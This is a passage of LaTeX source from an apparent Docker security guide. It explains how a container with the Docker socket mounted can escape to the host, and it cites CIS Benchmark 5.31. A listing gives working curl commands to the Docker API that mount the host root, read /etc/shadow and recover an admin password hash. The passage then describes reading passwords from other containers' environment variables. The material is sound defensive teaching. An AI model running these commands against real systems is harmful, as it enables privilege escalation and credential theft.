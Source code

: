 \hfill

Let's say we want to get the password hash of a user called \lstinline{admin} on the host. We can execute commands in a container with \lstinline{/var/run/docker.sock} mounted as a volume. We use the API to start another Docker container (on the host), that has access to the password hash (located in \lstinline{/etc/shadow}). We read the password file, by looking at the logs of the container that we just started.

\begin{lstlisting}[caption={Start Docker using the API to read host files.},captionpos=b]
(host)$ docker run -it --rm -v /var/run/docker.sock:/var/run/docker.sock ubuntu /bin/bash
(cont)# curl -XPOST -H "Content-Type: application/json" --unix-socket /var/run/docker.sock -d '{"Image":"ubuntu:latest","Cmd":["cat", "/host/etc/shadow"],"Mounts":[{"Type":"bind","Source":"/","Target":"/host"}]}' "http://localhost/containers/create?name=escape"
...
(cont)# curl -XPOST --unix-socket /var/run/docker.sock "http://localhost/containers/escape/start"
(cont)# curl --output - --unix-socket /var/run/docker.sock "http://localhost/containers/escape/logs?stdout=true"
...
admin:$6$VOSV5AVQ$jHWxAVAUgl...:18142:0:99999:7:::
...
(cont)# curl -XDELETE --unix-socket /var/run/docker.sock "http://localhost/containers/escape"
\end{lstlisting}

\hfill

This is also covered by CIS Benchmark guideline 5.31 (Ensure that the Docker socket is not mounted inside any containers).

\subsubsection{Sensitive Information}

When a container has access to \lstinline{/var/run/docker.sock} (i.e.\ when \lstinline{/var/run/docker.sock} is added as volume inside the container), it cannot only start new containers but it can also look at the configuration of existing containers. This configuration might contain sensitive information (e.g.\ passwords in environment variables).

\hfill

Let's start a Postgres\footnote{\url{https://www.postgresql.org/}} database inside a Docker. From the documentation of the Postgres Docker image\footnote{\url{https://hub.docker.com/_/postgres}}, we know that we can provide a password using the \lstinline{POSTGRES_PASSWORD} environment variable. If we have access to another container which has access to the Docker API, we can read that password from the environment variable.


